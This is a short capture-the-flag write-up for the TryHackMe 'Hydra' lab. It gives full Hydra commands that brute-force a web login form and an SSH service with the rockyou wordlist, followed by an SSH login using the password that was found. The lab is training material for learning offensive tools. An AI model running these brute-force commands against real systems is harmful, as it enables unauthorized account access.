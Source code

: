# Hydra
+ Link: https://tryhackme.com/r/room/hydra
+ Target IP Address: 10.10.50.153

## Tools
+ Hydra

## External Resources
+ https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/

## Task 1
1. Went to http://10.10.50.153 and looked at the source code. Found it uses the POST method.
2. `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.50.153 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V` to find the web form password.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/1.png)
  
3. Logged into the website using the given username and the hydra-ed password to find the flag.
4. `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.50.153 -t 4 ssh` to find the SSH password.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/2.png)
  
5. `ssh molly@10.10.50.153` with password butterfly.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/3.png)
  
6. `ls` and `cat <file name>` to display the flag.

## Learend
+ Generally, don't use `-V` in Hydra, because it makes the output less readable.
